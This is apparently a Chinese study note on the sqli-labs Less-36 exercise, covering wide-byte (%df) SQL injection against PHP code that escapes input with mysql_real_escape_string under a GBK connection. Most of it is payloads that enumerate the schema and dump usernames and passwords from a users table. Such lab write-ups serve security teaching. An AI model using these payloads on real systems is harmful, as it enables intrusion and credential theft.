 ```yaml
---
title: less36
url: https://www.yuque.com/u29002979/ep2zrx/akqnsfaraizokiyc
---
```


```bash
function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}

mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

上面的check\_quotes()函数是利用了mysql\_real\_escape\_string()函数进行的过滤。
**mysql\_real\_escape\_string()函数**转义 SQL 语句中使用的字符串中的特殊字符。
下列字符受影响：

- **\x00**
- **\n**
- **\r**
- ****
- **'**
- **"**
- **\x1a**

通过页面回显发现依旧是**宽字节注入**\ <a name="JU3F6"></a>

# 注入点检查

`?id=1'`

> Hint: The Query String you input is escaped as : 1'
> The Query String you input in Hex becomes : 315c27
> 十六进制

单引号被转义，利用**%df**突破

<a name="jqyPJ"></a>

# 宽字节注入

<a name="izUqu"></a>

## 判断字段数

`?id=1%df' order by 4--+  ` <a name="B0iQ5"></a>

## 回显点检查

`?id=-1%df' union select 1,2,3--+` <a name="kzUVz"></a>

## 信息收集

主要看用户,数据库版本 ,
`?id=1 %df' and 1=2 union select 1,user(),version()--+`\ <a name="kzVJM"></a>

## 开始注入

```bash
爆破数据库名称
?id=-1%df' union select 1,2,database()--+

爆破数据库表名称
?id=-1%df' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+

爆破字段名称
users的16进制是0x7573657273
?id=-1%df' union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name=0x7573657273--+

爆破字段内容
?id=-1%df' union select 1,2,(select group_concat(username,0x7e,password) from users)--+
```
